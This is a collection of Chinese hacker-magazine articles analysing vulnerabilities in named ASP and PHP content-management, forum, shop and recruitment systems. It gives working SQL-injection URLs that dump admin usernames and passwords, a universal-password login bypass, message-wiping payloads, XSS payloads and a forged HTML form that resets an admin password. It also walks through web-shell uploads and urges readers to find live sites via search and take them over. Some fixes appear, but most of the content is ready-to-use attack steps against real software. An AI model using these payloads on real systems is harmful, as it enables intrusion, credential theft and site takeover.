... 继续省略 ...
if rsr("clubuser_password")=md5(request.form("oldpwd")) then
clubuser_password=md5(password)
if password<>"" then
rsr("clubuser_password")=clubuser_password '开始写数据进数据库
end if
rsr("clubuser_question")=question
rsr("clubuser_answer")=md5(trim(request.form("answer")))
rsr("clubuser_sex")=request.form("sex")
rsr("clubuser_email")=email
rsr("signname")=signname
rsr("clubuser_marriage")=clubuser_marriage
rsr("clubuser_address")=clubuser_address
if request("img")<>"" then
rsr("userimg")=request("img")
end if
rsr.update
rsr.close
conn.close
```

这里有个 Checkstr:

```vb
Function Checkstr(Str)
    If Isnull(Str) Then
        CheckStr = ""
        Exit Function
    End If
    Str = Replace(Str,Chr(0),"")
    CheckStr = Replace(Str,"'","''")
End Function
```

对于跨站过滤的话没有起到任何作用，有几个地方都可以利用，E-MAIL 可以，地址里也可以，甚至性别处也可以，哎....

## 三. 总结

对于跨站我不多说什么了，很多程序都有这样的毛病，还是程序员不仔细的缘故。如果你花点时间坐在电脑前，也可以发现自己的首发漏洞！最后，还是顺便：I Love Min .^.^.

> **编辑点评：** 作者真是用心，对自己发现的漏洞能在通知官方后，待其作出反应，出新版本的时候再拿过来验证，这个精神是值得咱们学习滴；另外能就其他部分分析出新的漏洞，其行为也是对自己我的挑战和再提高，能坚持下去，以后肯定不错。

Flyh4t [脚本安全小组]

# 从 0day 谈 in() 函数中的变量未过滤带来的安全隐患

从本文你可以学到：

- 1. PHP 中 in() 函数
- 2. 一些 in() 的漏洞

大家对夜猫的系统应该是很有感情的吧，当年yemao下载系统可是被国内php注入牛人们当成教材来示范给我们广大菜鸟看的。今天我就通过 ym cms3.2.0 商业版的两个漏洞来给大家探讨下一个稍微不同点的注入漏洞——in（）函数中的变量未过滤带来的安全隐患。

先看两个几乎一样的漏洞，都是发生在 ym cms3.2.0 商业版中的。

## 漏洞一：

在 forum_zoom.php 的 31~35 行，可以看到：

```php
if ($forumid != ""){
    $isforum = " && forumid IN (".$forumid.") ";
// forumid 只要不为空, 就传递给 isforum, 引入了不安全的变量
}else{
    $isforum = " ";
}
```

再看 47~48 行，代码如下：

```php
$sql = "SELECT threadid, title, lastpost FROM ".$tab_prefix."thread WHERE isshow='1' ".$isforum." ORDER BY ".$isaction." LIMIT 0, ".$shownum;
// 将被污染的变量 isaction 带入了查询语句，漏洞产生
$result = mysql_db_query($dbname, $sql);
```

一个漏洞就这样产生了，主要因素是作者忽略了提交给 in() 中的参数的过滤。
利用方式也很简单，构造这样的语句就可以查询到密码

```text
http://www.yemao.com/forum_zoom.php?forumid=1)%20and%201=2%20union%20select%201,concat(username,0x5f,password),3%20from%20user%20where%20userid=1/*
```

## 漏洞二：

再看 info_zoom.php 的 31~35 行，代码如下：

```php
if ($sortid != ""){
    $issort = " && sortid IN (".$sortid.") ";
// 又是提交给 in()中的 sortid 变量没有过滤
}else{
    $issort = " ";
}
```

再看 47~48 行，代码如下：

```php
$sql = "SELECT infoid, title, dateline, uselink, filepath, link, txtlist FROM ".$tab_prefix."info WHERE isshow='1' ".$issort." ORDER BY ".$isaction." LIMIT 0, ".$shownum;
// 注射漏洞产生
$result = mysql_db_query($dbname, $sql);
```

这是和上一个漏洞完全一样的，甚至产生漏洞的行数都一样，不用说，利用方式也是完全一样的。

## 利用 Exp:

```text
http://www.yemao.com/info_zoom.php?sortid=1)%20and%201=2%20union%20select%201,concat(username,0x5f,password),3,4,5,6,7%20from%20user%20where%20userid=1/*
```

提交给 In() 函数的变量过滤不严,不单单会产生注射漏洞,我们来看心空论坛 2.5 中的一个短信清空漏洞。
在 Msgbox.php 的 30~35 行，代码如下：

```php
if($multidel) {
    $word=is_array($multidel)? implode(',', $multidel):$multidel;
// $multidel 没有过滤，污染了 $word
    $sql="delete from ".$_TAB_MSG__." where msg_id in ($word) and user_name='".$_Global['F_username']."'";
// 带入 sql 语句，漏洞产生
    $db->query($sql);
    msgjump('删除成功！','管理','manage',$kind);
}
```

提交 multidel= msg_id) /* ，整个论坛的短信将会被你一扫而空。
提交 multidel= msg_id) and user_name=flyh4t/* 就可以删除用户名为 flyh4t 的会员的短信。
以上都是 php 中的例子，asp 中有同样的漏洞吗？答案是肯定的！我这里给出风讯的一个漏洞。
风讯 4sp4 中 user/buybag.asp 的 40 行开始：

```asp
if request.Form("action")="makeorder" then
    Dim productIDs, OrderRs, BagRs, OrderDetail, OrderNumber, ExpressCompany
    productIDs=DelHeadAndEndDot(request.Form("productIDs"))
    // 仅仅去掉结尾的逗号
    ......(若干废话代码)
    BagRs.open "Select mid, BuyType, AddTime, UserNumber, BuyMoney, BuyNumber FROM FS_ME_BuyBag where mid IN("&productIDs&")", User_Conn, 1, 1
// 在 in()中发生注射
```

这里是个 post 方式的漏洞，利用起来可能有点麻烦。
至于以上漏洞的修补，也很简单，只要像下面这样过滤下，就不会有大问题了：）

```php
if(is_array($multidel)) {
    $word = $comma = "";
    foreach($multidel as $word) {
        $word .= "$comma'$word'";
        $comma = ",";
    }
}
```

文章结束，总结下本篇文章，没有什么技术上的新突破，但是应该让你认识到：什么地方都可能发生注射。欢迎和我交流技术和漏洞，我的邮箱是 flyh4t@126.com。同时也欢迎大家访问《黑客手册》论坛（www.nohack.cn）和脚本安全小组论坛（www.cnssrt.org）。感谢我的前女朋友小依，我一直很爱你，希望你能过的比我好。

> 另外，作为一个过来人，偶说说程序员对漏洞的看法，目前绝大多数的程序员安全意识不强，发现 bug 的时候也是只修补被发现的、提及的，而对其他相同性质的 bug 却不再多加理会，因为很多程序员都是帮别人做程序，而不是为自己。

# 注入+跨站+暴库+上传
# “七楼年华资源站”的噩梦

图 好色的悟空

+ 从本文你可以学到:
1、七楼年华漏洞分析  
2、漏洞的利用

今天在 mycodes 逛的时候发现一个七楼年华的整站系统，于是就下来练练手，我测试的时候已经更新到 V6.0 了，不知道安全性如何。读了一会代码没想到真的发现安全问题，下面大家就跟着我一步步来。

## 一、注入

注入漏洞主要出现在 softview.asp 文件中，其它文件应该还存在注入漏洞，只是这个文件存在的比较明显，下面是关键代码：

```asp
<%
Set rs=Server.CreateObject ("ADODB.Recordset")
sql="SELECT * from download where id="&request("id")
rs.open sql, conn, 1, 3
rs("count")=rs("count")+1
rs.update
%>
```

很明显，在 SELECT 语句中，直接用 request 方法获取 id 的值，执行了语句。所以注入漏洞就出现了，在这我就不用手工猜解了，直接用工具跑（因为本人比较懒）如图1。


## 二、跨站

这个漏洞存在于留言版块（gbook.asp 文件中），下面是关键代码：

```asp
<%
if request("aa")="提交" then
if Trim(Request.Form("name"))="" then
----------省略 N 多代码----------
end if
name=Trim(request.form("name")) // 获取 NAME,过滤两边的空格。
oicq=Trim(request.form("oicq")) //获取 OICQ, 过滤空格
email=Trim(request.form("email")) //获取 EMAIL,过滤空格
homepage=Trim(request.form("homepage")) //获取 HOMEPAGE
```

```asp
pic=Trim(request.form("pic")) //头像
ly=Trim(request.form("ly")) //留言内容
if homepage="http://" then homepage=""
sql="insert into gbook(name,oicq,email,homepage,pic,ly) values
('"+name+"','"+oicq+"','"+email+"','"+homepage+"','"+pic+"',
'"+ly+"')" //向表中添加记录
conn.execute sql
%>
```

对于留言内容，只过滤空格几乎没有任何作用，所以在输入框中输入 `<script>alert("悟空也好色？")</script>`，所有查看留言的人都能看到这个对话框，如图 2。


当然跨站不仅限于弹个对话框，最有趣的是挂马（本人比较反对挂马，欺负我们善良的菜鸟）。

## 三、暴库

不知什么原因，这套程序里的数据库连接文件，每个目录下都存在，试了几个不能暴，最后总算找到一个文件能暴。conn_forum.asp 文件，此文件存在于根目录，直接加 %5c 访问，如图 3。


## 四、上传

漏洞出现在 upload.asp 这个文件，这个上传漏洞比较有意思，虽然不允许上传 ASP 文件，但是只提示“文件类型非法”，最后 ASP 文件还是被传上去了，并且这个文件没有加权限，导致了任何用户都可以访问到，关键代码如下：

```asp
<%
set upload=new upload_5xSoft // 新建上传对象
set file=upload.file("file1")
formPath="upload/"
if file.filesize>100 then
fileExt=lcase(right(file.filename,3))
if fileExt="asp" then // 如果文件类型为 ASP, 则提示 "文件类型非法"
Response.Write "文件类型非法"
end if
end if
randomize
ranNum=int(90000*rnd) +10000
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
if file.FileSize>0 then
file.SaveAs Server.mappath(FileName) // 保存
end if
response.write "图片上传成功.[<a href='upload.asp'>返回继续上传</a>]<br>图片是: <a href=Javascript:minipic('"&filename&"');>缩略图</a>
%>
```

```asp
&nbsp;&nbsp;&nbsp;&nbsp; <a href=Javascript:pic('"&filename&"');>放大图</a>
%>
```

上传个ASP木马，就成功了，然后在“放大图”上面点右键属性，就可以看到地址了，如图 4、5。


思路很清晰，判断文件的类型是否为ASP，如果是则提示“文件类型非法”，但是没有做任何处理直接上传了，利用方法：直接访问 admin/upload.asp，


## 五、总结

这套程序算是个洞比较多的程序了，大家在百度里搜“**七楼年华——资源站**”可以找到使用这套程序的站，直接利用上传漏洞就得到个 WEBSHELL。最后，希望使用这套程序的朋友们注意下。

### 编辑点评：

短短一篇文章，就找了七楼年华的四大硬伤，由此可见这个系统的安全性能确实不咋地，这样的系统拿来练手最好不过了，但是看代码的时候千万别学会那些糟糕的代码风格，而是要挑出他们的毛病，力求自己写代码的时候避免犯同样的错误。

# 钻的就是程序员的空子——貌似过滤了的参数

Sniper Hg、Eleveners

+ 从本文可以学到：
1. 多多网店系统跨站漏洞分析、利用
2. 该系统的注射漏洞分析及其利用

```asp
Set rs=Server.CreateObject("ADODB.Recordset")
sql="select * from guest_info"
rs.open sql,conn,1,3
rs.addnew
rs("guest_info_name")=guest_info_name
rs("guest_info_email")=guest_info_email
rs("guest_info_qq")=guest_info_qq
rs("guest_info_detail")=guest_info_detail
rs("guest_info_time")=now()
rs("guest_info_IP")=Request.ServerVariables("REMOTE_ADDR")
rs.update
rs.close
set rs=nothing
```

这个程序本来差点被我放过了，但是作为“天生购物狂”，咱能不能对购物程序下点功夫，嘎嘎。这次成为我目标的是“多多网店系统免费版 v4.13”。虽为免费版本，但经过验证，官方的正式版同样存在该漏洞。

## 1. 不痛不痒的跨站漏洞

和众多的购物程序一样，“多多”也免不了这个跨站漏洞。留言处的姓名以及其他任何地方都可以跨站，但是有的地方涉及到闭合，我在姓名处直接写跨站代码。"<script>alert(/SniperHg Good Boy!/)</script>", 如图1，提交留言。管理员到后台管理留言，框框就出来了，如图2。看看漏洞代码：


```asp
        guest_info_name=my_request("guest_info_name",0)
        guest_info_email=my_request("guest_info_email",0)
        guest_info_qq=my_request("guest_info_qq",0)
        guest_info_detail=my_request("guest_info_detail",0)
        CheckCode=my_request("codeid",0)
        ErrMsg=""
        if guest_info_name="" then
            FoundErr=True
            ErrMsg=ErrMsg & "<li>名字不能为空! </li>"
    ……节约版面, 省略部分代码……
        if FoundErr<>True then
```

这里涉及到一个函数 **my_request()**，在 Include 目录下 myrequest.asp 文件里。定义如下：

```asp
Function my_request(ParaName, ParaType)
    Dim ParaValue
    ParaValue=Request(ParaName)
    If ParaType=1 Then
        ErrMsg=""
        If Not isNumeric(ParaValue) Then
            FoundErr=True
            ErrMsg="<li>非法操作! </li>"
            call WriteErrMsg(ErrMsg)
            response.end
        end if
    Else
        ParaValue=replace(ParaValue, "'", "''")
    End if
    my_request=ParaValue
End function
```

函数里有两个参数，ParaName 和 ParaType。当 ParaType 为 1 的时候就检查 ParaName 是否为数字型，不是就出错。当 ParaType 为其他值的时候，比如字符型，就过滤掉单引号。这个函数在过后的漏洞里也出现了，而且程序就毁在这个函数上。接着我们的跨站漏洞，程序基本上什么都没过滤就写进了数据库，显示在页面的也没有经过任何的过滤，跨站就此产生，可以参照“天生购物狂”进行管理员的添加。不过这不是我们的重点，我们的重点是接下来的注入漏洞。

## 2. 便捷的注入漏洞

漏洞文件 Product_ListSearch.asp，参数形式是：prod_ListSearch.asp?name=333333&bid=10。问题就出在bid这个参数上，我们先看产生漏洞的文件代码：

```asp
search_prod_cid=my_request("cid",0)
search_prod_name=my_request("name",0)
search_prod_detail=my_request("detail",0)
search_prod_UserPriceMin=my_request("UserPriceMin",0)
search_prod_UserPriceMax=my_request("UserPriceMax",0)
search_prod_flag=my_request("flag",0)
......省略大部分无关代码......
dim Search
Search=""
if search_prod_cid<>"" then
    Search=Search & " and cid="&search_prod_cid
end if
......继续省略......
```

search_prod_cid参数貌似用了mty_request过滤，可是我们再看看，这个search_prod_cid是个数字型的参数，还记得前面的my_request函数是怎么定义的吗？当ParaType不为1的时候就过滤单引号，可这里有一句Search=Search & " and cid="&search_prod_cid，变量search_prod_cid没有用单引号引起来。接下来文件调用一个Product_ListSearch(Search, root_option_NumsPerRow,NumsPerPage)函数来进行搜索，函数代码如下：

```asp
Sub Product_ListSearch(Search, NumsPerRow, NumsPerPage)
    if IsNumeric(NumsPerRow)=false or IsNumeric(NumsPerPage)=false then
        check="false"
    end if
    ......省略......
    if Search<>"" then
        sql="select id, Product_info_Name, Product_info_PriceM, Product_info_PriceS, Product_info_PicS from Product_info where Product_info_OnOff=0. " & Search
    ......继续省略......
```

函数检查NumsPerRow,NumsPerPage这两个参数是否为数字，可是在这里跟我们无关。我们关心的是search变量，而这里就检验是否为空，当然不能能为空哈！然后就进了数据库查询了。

注入的时候用工具要记得添加表名:njj_manage和字段名:njj_username, njj_password。这个是针对免费版的，还好官方提供了演示，后台部有，我们就直奔后台咯。后台用的是 Team BBS的模板，这个论坛我找


到过跨站漏洞。来到数据库管理，看到正式版的数据库地址，如图 3。

下载回来，打开看看，管理员表名为admin_info，字段名为admin_info_username 和 admin_info_password，如图 4。

后来经过测试，官方的正式版同样存在上述 2 个漏洞，截图


关于漏洞的修补，跨站的我懒的说了，程序员完全不拿自己当回事儿。注入的修补就把 search_prod_cid=my_request("cid", 0) 换成 search_prod_cid=my_request("cid", 1)，做数字检查就行了。还有，顺便，I like Min. ^_^

### 编辑点评：
这款购物系统存在的 bug 不是一眼就能看出来的，需要跟踪进去看其内部是怎么实现的，我们找漏洞的时候，随着自己水平的提高，慢慢的会越来越深入；所以当你觉得自己能跟踪进去，搞清楚内部的实现模式，说明你的水平已经不低了。 [防线编辑部]

# 都是统计惹的祸——淘特 ASPCMS 5.0 版漏洞分析
图 / 花蝎宝宝 & 非零解

+ 从本文你可以学到:
1、淘特 ASPCMS 5.0 漏洞分析  
2、逻辑漏洞份额分析

## 一、淘特 ASPCMS 介绍

淘特网新闻管理系统简称 Tot-CMs，在系统的介绍中称：“淘特 CMS 在设计中考虑到多种 ASP 常见漏洞，并在程序中加以预防”。的确系统很好的考虑了安全的问题，特别在 SQL 注入方面基本上找不到漏洞，我在分析代码的时候，系统中输入的变量都基本上过滤了（当然只是在我的水平范围内）。

简单对系统的防范介绍一下，在 getnews.asp 中：

```asp
<%
dim rs, sql, classid, bytype, num, max
if(request.QueryString("classid")<>"") then
//得到 classid 的值
    classid=Cint(request.QueryString("classid"))
//把变量 classid 转换成整数类型
else
    classid=0
end if
if(request.QueryString("bytype")<>"") then
    bytype=Cint(request.QueryString("bytype"))
else
    bytype=0
end if
%>
```

```asp
if(request.QueryString("num")<>"") then 
    num=Cint(request.QueryString("num")) 
else 
    num=10 
end if 
if(request.QueryString("max")<>"") then 
    max=Cint(request.QueryString("max")) 
else 
    max=10 
end if 
sql="select top "&num&" id,title,pagepath from news where checked=true" 
//SQL 查询语句 
if(classid<>0) then 
    sql=sql&" and classid="& 
end if 
........ 
%>
```

在 getnews.asp 文件中，对取得的变量 num、classid 等都转化成整型，然后再放入 sql 语句中，这就防止了 sql 注入。程序中虽然没有用 asp 的系统函数 Request.ServerVariables ("HTTP_X_FORWARDED_FOR")对取得的值进行过滤，但在 inc/function.asp 中，定义了 GetIp()函数：

```asp
function GetIp() 
    dim userip,retstr,i 
    userip = Request.ServerVariables("HTTP_X_FORWARDED_FOR") 
    if userip = "" then 
        userip = Request.ServerVariables("REMOTE_ADDR") 
    end if 
    if (userip<>"") then 
        userip=split(userip,",") 
        for i=0 to ubound(userip) 
            retstr=retstr&Cint(userip(i)) 
            if(i<ubound(userip)) then 
                retstr=retstr&"." 
            end if 
        next 
    end if 
    GetIp=retstr 
end function
```

在 commen.asp 中：

```asp
userip=GetIp() 
........ 
set rs=server.CreateObject("adodb.recordset") 
rs.open "select top 1 * from commen order by id desc",conn,3,3 
rs.addnew 
rs("username")=author 
rs("content")=content 
rs("moditime")=now 
rs("classid")=classid 
rs("articleid")=id 
rs("userip")=userip 
rs.update 
rs.close 
set rs=nothing
```

虽然 Request.ServerVariables("HTTP_X_FORWARDED_FOR")没有经过任何过滤，但是对数据库的操作使用了 adodb.recordset 的 addnew 方法，该方法容 sql 注入，把传递的 userip 的数据当作值插入数据库中。所以这里也没有产生 sql 注入，看来编写这套程序的人还是比较安全的，不过貌似价格很贵，如图 1。这样的高价（相对我这个穷学生而言，将近 2000 元和 3000 元的这种程序已经是比较贵的了）就是绝对的安全了吗？

虽然整个 CMS 做得比较安全，但是它整合了淘特统计系统。统计系统采用与整个 CMS 系统分开的数据库，放在 totstat 目录下的 tot_stat.mdb。统计系统除了能从 CMS 的管理页面进行管理外，还能通过自己的管理页面管理统计系统，当然这个统计系统的后台不是很强大，除了简单的查看访问统计和删除访问统计外，基本上没什么功能。那么就开始我们的漏洞分析吧，万恶的漏洞就是从整合的这套统计系统来的，CMS 加上统计系统就造成了这些漏洞非常具有危害性（当然漏洞的利用也就很有价值了）。

## 二、跨站漏洞分析

其实跨站漏洞的发现说容易也容易，说不容易也不容易，最关键的是跨站的危害大不大，利用起来方不方便。在 totstat/stat.asp 文件中有如下代码：

```asp
fromip=GetIp() 
strReferrer=request.QueryString("ref") 
strURL=Request.ServerVariables("URL") 
pageUrl=trim(request.QueryString("page")) 
If strURL="" Then 
strURL="(unknown)" 
End If 
strReferrer=ReplaceBadStr(strReferrer) 
strURL=ReplaceBadStr(strURL) 
pageUrl=ReplaceBadStr(pageUrl) 
...... 
If databaseType=1 Then 
    sql_page="SELECT * FROM t_page WHERE f_date=#"&strDate&"# and f_pageurl='"&pageUrl&"'" 
Else 
    sql_page="SELECT * FROM t_page WHERE CONVERT(varchar(10), f_date, 121) = '"&strDate&"' and f_pageurl='"&pageUrl&"'" 
End If 
Set Rs=Server.CreateObject("ADODB.Recordset") 
Rs.open sql_page,conn,3,3 
if Rs.eof then 
    Rs.addnew 
    Rs("f_pageurl")=pageUrl 
    Rs("f_date")=strDate 
    Rs("f_time")=strTime 
    Rs("f_hits")=1 
    Rs.update 
else 
    Rs.MoveFirst 
    Rs("f_hits")=Rs("f_hits")+1 
    Rs.update 
end if 
Rs.close 
set Rs=nothing
```

文件中取得了 ref、URL、page 的值，然后经过 ReplaceBadStr() 函数的过滤就插入到了数据库中。在 totstat/function.asp 中定义的 ReplaceBadStr() 如下：

```asp
function ReplaceBadStr(oristr) 
    dim retstr 
    retstr=LCase(oristr) 
    if (oristr<>"") then 
        retstr=replace(retstr, "or", "") 
        retstr=replace(retstr, "'", "") 
        retstr=replace(retstr, "and", "") 
        retstr=replace(retstr, "(", "") 
        retstr=replace(retstr, ")", "") 
        retstr=replace(retstr, "chr", "") 
        retstr=replace(retstr, "char", "") 
    end if 
    ReplaceBadStr=retstr 
end function
```函数ReplaceBadStr()只过滤了or、'、(、and、chr、char，从过滤的情况看是对SQL注入进行过滤。然而在totstat/page.asp中：

```
<%
    Set Rs=Server.CreateObject("ADODB.Recordset")
    If databaseType = 1 Then
        sql="select f_pageurl, f_date, f_time, f_hits from t_page WHERE f_date=#"&bydate&"# order by f_hits desc, id desc"
    Else
        if (currentpage=1) then
            sql = "SELECT top "&pagesize&" f_pageurl, f_date, f_time, f_hits from t_page WHERE CONVERT(varchar(10), f_date, 121) = '"&bydate&"' order by f_hits desc"
        else
            sql = "SELECT top "&pagesize&" f_pageurl, f_date, f_time, f_hits from t_page where id not in (select top " & (pagesize*(currentpage-1)) & " id from t_page where CONVERT(varchar(10), f_date, 121) = '"&bydate&"' order by f_hits desc) and CONVERT(varchar(10), f_date, 121) = '"&bydate&"' order by f_hits desc"
        end if
    end if
    dim startIndex
    if(databaseType=1) then
        startIndex=pagesize*(currentpage-1)
    else
        startIndex=0
    end if
    Rs.open sql, conn, 3, 1
    if not rs.eof then
        rowsdata=rs.GetRows()
        rs.close
        set rs=nothing
        for iti=startIndex to startIndex+pagesize-1
            ...
            if (iti>ubound(rowsdata, 2)) then
                exit for
            end if
%>
<tr>
    <td height="20" valign="bottom" bgcolor="#FFFFFF"><div align="left"><%=iti+1%>: <a href="<%=rowsdata(0, iti)%>" target="_blank"><%=rowsdata(0, iti)%></a></div>
    <td valign="bottom" bgcolor="#FFFFFF"><div align="center"><%=rowsdata(1, iti)%>
    <td valign="bottom" bgcolor="#FFFFFF"><div align="center"><%=rowsdata(2, iti)%></div></td>
</tr>
```

从t_page表中分别取得f_pageurl（访问页面）、f_date（访问日期）、f_time（访问时间）、f_hits（页面访问数）以行存放在二维数组rowsdata中，rowsdata(0, iti)就是第iti+1个列的f_pageurl的内容。在输出的过程中也没有对于f_pageurl进行任何过滤，仅仅在输入的时候过滤了几个简单的关键字。这就造成了跨站，在浏览器上打开http://127.0.0.1/totstat/stat.asp?page=http://</a><iframe src="http://127.0.0.1"></iframe> <a>

<a>，这时候在统计的管理统计页面就出现了，如图2所示。


因为是管理员可以直接访问的地方，利用的方法比较多的是加管理员，但是如果管理员是通过统计系统登录来查看统计的数据，那么这个的利用价值就不是很大了。

## 三、统计的 Session 与 CMS 的 Session

在inc/checkrole.asp中，对管理员的权限进行了判断。而在管理员修改密码的admin/chanpass.asp文件中只包含了inc/Session.asp，session.asp关键代码如下：

```
<%
Dim UserName, UserPass, UserID, RsSessionObj, GoRefresh, Sql
UserName = Session("Name")
UserPass = Session("PassWord")
UserID = Session("AdminID")
if (UserName="" or len(UserName)<0) then
    Response.Redirect("login.asp")
    Response.end
end if
%>
```

这里只判断Session的Name的内容不为空或者不小于零就能修改密码。而在totstat/login.asp中，判断了管理员登录后，就赋予session的name为adminlogined。

```
    username=request.Form("username")
    password=md5(request.Form("password"), 32)
    Set rs=Server.CreateObject("ADODB.Recordset")
    rs.open "select * from t_admin where adminname='"&username&"' and adminpass='"&password&"'", conn, 3, 1
    if not rs.eof then
        session("name")="adminlogined"
        response.Write("<script>parent.location.href='admin_index.asp';</script>")
    else
        response.Redirect("login.asp")
    end if
```

Chanpass.asp只要是Session的Name不为空就可以修改密码，而登录统计系统session的name为adminlogined。虽然一个是Name，一个是name，但是在asp中对大小写不敏感。也就是当我们登录统计系统后，chanpass.asp要验证的Session的Name也是不为空的。这就可以直接修改管理员的密码了。要登录统计系统相对于就比较容易，一般的情况下，统计系统的默认密码和默认的数据库都不会被人忽视的。就算是修改了，别忘了验证用户名和密码的经典语句：select * from t_admin where adminname='"+username+"' and adminpass='"+password+"', 在上面的代码中可以看到并没有过滤 "username" 和 "password"，这样就可以直接输入' or ' = ' or ' 万能密码进入统计系统后台，让服务器赋予我们一个session值便可以直接访问 http://127.0.0.1/admin/chanpass.asp，如图3所示。

但是修改密码的时候，被提示错误：


ADODB.Recordset 错误 '800a0bcd'
BOF 或 EOF 中有一个是“真”，或者当前
的记录已被删除，所需的操作要求一个当前的记录。
/admin/chanpass.asp, 行 24

原来在admin/chanpass.asp有如下代码：

```
set Rs = server.CreateObject("ADODB.Recordset")
SQL="select * from admin where UserName='"&request.Form("AdminName")&"'"
Rs.Open SQL, Conn, 3, 3
Rs("PassWord")=md5((request.Form("PassWord")), 16)
```

```
asp
Rs.update
Rs.close
Set Rs=nothing
......
<input type="submit" name="Submit" value=" 确 定 ">
<input name="AdminName" type="hidden" id="AdminName" value="<%=session("name")%>">
<input name="id" type="hidden" id="id" value="<%=Session("AdminID")%>">
<input name="action" type="hidden" id="action" value="add" >
<input type="button" onClick="window.close();" name="Submit2" value=" 取 消 ">
```

这里`<input name="AdminName" type="hidden" id="AdminName" value="admins">`的value应该为要修改的管理员的用户名。如果不知道管理员的用户名，可以一个个猜解，把value的值修改；如果有这个用户名的话，密码就会修改成功，没有的话会出现前面一样错误。

## 四、总结

修改密码后，进入后台就相当于得到一个webshell。后台的功能特别的强大，可以操作数据库也可以管理磁盘，上传任何格式的文件，如图5。


原来在修改密码的时候，request.Form("AdminName")来自session("name")，就是修改密码的用户是adminlogined，由于在admin表中的 UserName字段并没有adminlogined，所以出错了。这时候怎么办呢？


我们可以在本地建立如下代码的html文件，登录统计系统后（一直要保持登录状态），运行这个html文件，在这个文件里面修改管理员密码，如图4，页面会提交数据给http://127.0.0.1/admin/chanpass.asp，所以在地址栏上会显示这个地址。来看看代码：

> > 【作者写的利用页面和做的演示动画已经收录在光盘中。】
> **编辑点评：**
> 一款相对强大、安全的系统，整合其他的第三方系统时，往往会出现一些问题，就像“木桶理论”，整个系统的安全性能就大打折扣了，所以想通过这篇文章告诫朋友们，随时注意自己使用的其他一些“不大”的系统，那些“小漏洞”往往决定你系统的整体安全性性性性：

```
html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>修改管理员密码</title>
</head>
<body>
<div align="center">
<table width="59%" border="0" cellspacing="0" cellpadding="0">
<form method="post" name="PassWordForm" action="http://127.0.0.1/admin/chanpass.asp">
<tr>
<td height="53" colspan="2">&nbsp;</td>
</tr>
<tr>
<td colspan="2">&nbsp;&nbsp;&nbsp; <div align="center">
新 密 码
<input name="PassWord" type="password" id="PassWord" size="30" >
<br>
<br>
确 认 密 码
<input name="AffirmPassWord" type="password" id="AffirmPassWord" size="30" >
</div></td>
</tr>
<tr>
<td height="50" colspan="2"> <div align="center">
<input type="submit" name="Submit" value=" 确 定 ">
<input name="AdminName" type="hidden" id="AdminName" value="admins" >
<input name="id" type="hidden" id="id" value="1" >
<input name="action" type="hidden" id="action" value="add" >
<input type="button" onClick="window.close();" name="Submit2" value=" 取 消 ">
</div></td>
</tr>
</form>
</table>
</div>
</body>
</html>
```


## 从本文你可以学到：

- 嘉缘人才管理漏洞分析
- 漏洞利用思路

嘉缘人才管理系统V2.15是一款功能较为强大的人才管理系统，说明文件上就列出了29项，功能多了就是好啊，可以叫我们有更大的空间去找一些小漏子。下面是我在读代码时发现的漏子，大家跟着来看看吧！

## 一、注入

注入主要发生在 List.asp 文件，其它文件还有，有兴趣的自己研究一下，其关键代码如下：

```
asp
<%
m_CategoryID = Request.QueryString("CategoryID")
m_SQL = "SELECT F_ID,F_Value FROM T_NewsCategory WHERE F_ID="&m_CategoryID
SET rst = conn.Execute(m_SQL)
if Not rst.Eof then m_CategoryName = rst(1) else m_CategoryName = ""
rst.Close
%>
```

先用 Request 对象的 QueryString 方法获取 CategoryID 的值，然后把值赋给 m_CategoryID，接着就执行了查询语句，没有做任何一点过滤，导致一个注入漏洞的诞生。理论上是这样的，下面实战一下。随便找个调用 List.asp 文件的页面，在地址后面加 and 1=1、and 1=2。返回结果如图1、2。

很明显，返回页面不同，为了节省时间就用工具跑我们需要的信息，不过在跑之前必须往库里加 T_Admin 这个表，和 F_UserName、F_Password 字段，如图3。


## 二、跨站

这个站在跨站方面做的还是不错的，许多地方都做了转换，但还是被我发现了一个小漏子，发生在“发布招聘信息”这个板块的“年龄要求”，真是万密一疏啊！这个板块调用的是 publish.asp 文件，我们来看看它是怎么处理提交的数据，关键代码如下：

```
asp
<%
zptext=htmlencode2(request("zptext")) //对输入 NAME 为 ZP.TEXT 输入的内容用 htmlencode2 进行转换
if zptext="" then Response.End
job=request("job")
zpnum=request("zpnum")
gzdd=request("gzdd")
cname=request("cname")
nianlings=request("nianlings") //用 request 方法获取 nianlings
zyes=request("zyes")
edus=request("edus")
moneys=request("moneys")
youxiaos=request("youxiaos")
---------省略 N 多无关代码---------
Set rs = Server.CreateObject("ADODB.Recordset")
rs.open "zp",conn,3,3
rs.addnew
rs("uname")=uname
rs("zptext")=zptext
rs("jobtypes")=jobtypes
rs("edus")=edus
rs("shisus")=shisus
rs("zyes")=zyes
rs("nianlings")=nianling //s直接显示出来
rs("languages")=languages
rs("hkas")=hkas
rs("pthuas")=pthuas
---------省略 N 多无关代码---------
rs.update //更新表单内容
rs.close
Response.Redirect "main.asp"
%>
```

这就很明显了，在“年龄要求：”那输入的内容没做任何过滤，就进行了 UPDATE 操作并显示出来，所以我们在输入框内输入“<script>alert("年龄跨站")</script>”（不包括双引号），然后查看刚才发布的招聘信息，就会弹出个对话框，如图4。


我们可以利用这个漏洞来挂马，但是挂马语句较长，我们可以把这个页面另存到本地，修改 maxLength 的值，把 30 改成 10000，这个够用了吧，最后别忘了把 action 改成：“http://域名/company/publish.asp”。

## 三、暴库

我看了下 CONN.ASP 文件，里面没有容错语句，却不知什么原因，暴不出数据库路径，如图5。

## 四、得 WEBSHELL

得 WEBSHELL 的方法还是传统的：进入后台（别忘了我们刚才注入猜的密码），在“网站参数设置”的“上传文件类型”里直接加 ASP 就行了，如图 6。


图 5 暴库不成功

然后去新闻模块发条新闻，直接上传就 OK 了。找马地址不用我多说了吧，去前台看刚发的新闻，如图 7、8。


图 6 添加类型

## 五、总结

这款程序在注入方面做的不太好，跨站方面总的来说做的还是不错的，只是程序员一点疏忽导致了一个跨站漏洞的诞生。最后，希望程序员们在以后的编程中能够越做越好，也希望 NOHACK 成为越来越多数菜鸟爱吃的菜。

编辑点评：总体来说，这篇文章难度不大，初入门的小菜应该都能看得懂，我就不多点评了，也希望 NoHack 能成为越来越多数菜鸟爱吃的菜。


图 7 得到马儿的地址


图 8 得到 webshell

# 为了源码 —— 一击跨企业网站 v5.0

Loner制作（Summer）

- 从本文你可以学到：
1、漏洞分析 2、利用技巧

